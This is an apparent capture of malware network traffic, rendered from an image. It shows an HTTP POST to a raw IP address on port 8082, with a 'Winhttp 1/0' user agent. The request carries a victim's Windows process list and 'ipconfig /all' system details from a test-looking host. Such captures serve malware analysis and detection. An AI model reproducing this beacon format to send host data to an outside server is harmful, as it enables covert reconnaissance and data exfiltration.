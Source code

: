 ```
Connection: Keep-Alive
Content-Type: multipart/form-data; boundary=---WebKitFormBoundary7MA4YWxkTrZu0gW
User-Agent: Winhttp 1/0
Content-Length: 4362
Host: 203.176.135.102:8082

-----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="proclist"

		----------------PROCESS LIST----------------

[System Process]
System
smss.exe
csrss.exe
wininit.exe
csrss.exe
winlogon.exe
services.exe
lsass.exe
lsm.exe
svchost.exe
svchost.exe
svchost.exe
svchost.exe
svchost.exe
svchost.exe
svchost.exe
spoolsv.exe
svchost.exe
svchost.exe
svchost.exe
taskhost.exe
dwm.exe
explorer.exe
SearchIndexer.exe
WUDFHost.exe
wermgr.exe
svchost.exe


proclisttest
-----WebKitFormBoundary7MA4YWxkTrZu0gW
Content-Disposition: form-data; name="sysinfo"

		----------------SYSTEM_INFO----------------

	ipconfig /all


Windows IP Configuration

   Host Name . . . . . . . . . . . . : Cat-Bomb-W7-PC
   Primary Dns Suffix  . . . . . . . : catbomber.net
   Node Type . . . . . . . . . . . . : Hybrid
   IP Routing Enabled. . . . . . . . : No
   WINS Proxy Enabled. . . . . . . . : No
   DNS Suffix Search List. . . . . . : catbomber.net
                                       localdomain

Ethernet adapter Local Area Connection:

   Connection-specific DNS Suffix  . : localdomain
```
